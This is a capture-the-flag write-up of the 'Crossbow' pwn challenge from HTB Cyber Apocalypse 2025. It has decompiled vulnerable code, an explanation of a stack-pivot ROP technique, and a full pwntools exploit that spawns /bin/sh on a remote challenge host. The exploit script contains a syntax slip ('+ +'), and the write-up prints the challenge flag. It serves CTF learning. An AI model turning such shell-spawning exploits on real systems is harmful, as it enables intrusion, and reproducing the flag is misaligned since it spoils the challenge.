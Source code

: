 ```yaml
---
title: Crossbow
date: 2025-03-29T19:09:45+02:00
description: Writeup for Crossbow [HTB Cyber Apocalypse CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Sir Alaric's legendary shot can pierce through any enemy! Join his training and hone your aim to match his unparalleled precision.

## Intuition

The following is the decompiled code for the `training()` and the `target_dummy()` functions, which are the vulnerable functions:

```c
void training(void)

{
  char *local_28 [4];
  
  printf("%s\n[%sSir Alaric%s]: You only have 1 shot, don\'t miss!!\n",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  target_dummy(local_28);
  printf("%s\n[%sSir Alaric%s]: That was quite a shot!!\n\n",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  return;
}


void target_dummy(char **param_1)
{
  int iVar1;
  long lVar2;
  char *pcVar3;
  int input;
  
  printf("%s\n[%sSir Alaric%s]: Select target to shoot: ",&DAT_0040b4a8,&DAT_0040b00e,&DAT_0040b4a8);
  iVar1 = scanf("%d%*c",&input);
  if (iVar1 != 1) {
    printf("%s\n[%sSir Alaric%s]: Are you aiming for the birds or the target kid?!\n\n",
           &DAT_0040b4e4,&DAT_0040b00e,&DAT_0040b4e4);
    exit(0x520);
  }
  lVar2 = (long)input;
  pcVar3 = (char *)calloc(1,0x80);
  param_1[lVar2] = pcVar3;
  if (param_1[lVar2] == (char *)0x0) {
    printf("%s\n[%sSir Alaric%s]: We do not want cowards here!!\n\n",&DAT_0040b4e4,&DAT_0040b00e,
           &DAT_0040b4e4);
    exit(0x1b39);
  }
  printf("%s\n[%sSir Alaric%s]: Give me your best warcry!!\n\n> ",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  pcVar3 = fgets_unlocked(param_1[input],0x80,(FILE *)__stdin_FILE);
  if (pcVar3 == (char *)0x0) {
    printf("%s\n[%sSir Alaric%s]: Is this the best you have?!\n\n",&DAT_0040b4e4,&DAT_0040b00e,
           &DAT_0040b4e4);
    exit(0x45);
  }
  return;
}
```

Basically, we get an arbitrary write up the stack through `param_1[lVar2] = pcVar3`, because `lVar2` can be out of bounds. But our write simply overwrites 8 bytes on the stack with a pointer to the heap, to where our next payload is stored.

After that, with the `fgets_unlocked(param_1[input],0x80,(FILE *)__stdin_FILE)`, we can write on the heap.

The idea here is to overwrite a saved RBP on the stack to poison RSP and point to the heap.
Then the heap will contain addresses to ROP gadgets and we can form a ROP chain like that.

Another problem here is `0x80`, the number of bytes we can read through the `fgets()` call, is not that much.
So our payload has to be quite small.

## Solution

For the solution, I chose to make use of the numerous `pop` gadgets and the `syscall` gadget.
It's a bit weird, but basically I `read(0, data_addr, 59)` and then the rest of the payload uses `data_addr` and `data_addr+16` as arguments to `execve()`.

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./crossbow")
target = remote("83.136.249.101", 42894)

data_addr = 0x40d000
pop_rax = 0x0000000000401001
pop_rdi = 0x0000000000401d6c
pop_rsi = 0x000000000040566b
pop_rdx = 0x0000000000401139
syscall = 0x0000000000404b51

target.sendline(b"-2")

payload = p64(0) + p64(pop_rax) + p64(0) + p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(data_addr) + p64(pop_rdx) + p64(59) + p64(syscall) + p64(pop_rdi) + p64(data_addr + 16) + p64(pop_rdx) + p64(0) + p64(syscall)

target.sendline(payload)

second_stage = p64(data_addr + 16) + p64(0) + b"/bin/sh\x00" + + b"a" * 35
target.send(second_stage)

target.interactive()
```

The way the payload goes is:

1. Overwrite RBP with `-2`.
2. Payload contains 8 bytes of `0x0` at the beginning because dynamic analysis shows execution skips 8 bytes of my payload so whatev.
3. Set RAX to 0, set RDI to 0, set RSI to data_addr (which is just some address in a writable segment of memory), set RDX to 59, do `syscall` -- equivalent with `read(0, data_addr, 59)`.
4. After the read happens, RAX is set to 59. This is helpful for the next syscall, which should do `execve()`.
5. The second stage of the payload is input for the `read()` syscall. Basically it constructs a fake argv at `data_addr` as follows:

```
data_addr = 0x41000 (for example)

ADDRESS: 8-BYTE VALUE
---------------------------
0x41000: 0x0000000000041010 ---+ // This is basically argv[0] = 0x41010
0x41008: 0x0000000000000000    | // This is basically argv[1] = 0
0x41010: 0x0068732f6e69622f  <-+ // This is "/bin/sh\x00"
```

6. Finally, after the fake argv is constructed, the `execve(data_addr+0x10, data_addr, NULL)` syscall happens. Owned.

### Flag

`HTB{st4t1c_b1n4r13s_ar3_2_3z_SOME_UNIQUE_ID}`
